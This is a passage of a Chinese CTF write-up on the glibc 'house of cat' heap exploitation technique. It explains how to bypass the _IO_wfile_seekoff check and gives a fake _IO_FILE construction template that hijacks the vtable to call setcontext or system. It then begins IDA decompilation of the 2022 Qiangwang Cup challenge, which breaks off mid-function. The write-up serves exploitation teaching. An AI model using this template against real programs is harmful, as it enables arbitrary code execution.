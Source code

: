 检测绕过

其实就是在 \_IO\_wfile\_seekoff 中

```plain
(fp->_wide_data->_IO_read_base== fp->_wide_data->_IO_read_end) && (fp->_wide_data->_IO_write_base== fp->_wide_data->_IO_write_ptr)
```

在 catf1y 师傅的原文里有构造模版

如下：

```plain
fake_io_addr=heapbase+0xb00 # 伪造的 fake_IO 结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)+p64(2) # rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```

call\_addr：setcontext 或 system 的地址

\_IO\_backup\_base：执行函数时的 rdx

\_flags：执行函数时的 rdi

注：若 FSOP 需将 vtable 改为 IO\_wfile\_jumps+0x30

# 例题：2022 强网杯 house of cat

## ida 分析

有一个登录模块

```plain
__int64 __fastcall sub_1DF3(__int64 a1)
{
  __int64 result; // rax
  unsigned int v2; // eax
  char *v3; // [rsp+18h] [rbp-8h]

  if ( *(a1 + 8) == 1 && !strcmp(*(a1 + 16), "admin") )
    dword_4040[0] = 1;
  result = *(a1 + 8);
  if ( result == 3 )
  {
    result = strtok(*(a1 + 16), "$");
    v3 = result;
    if ( result )
    {
      result = dword_4014;
      if ( *v3 == dword_4014 )
      {
```
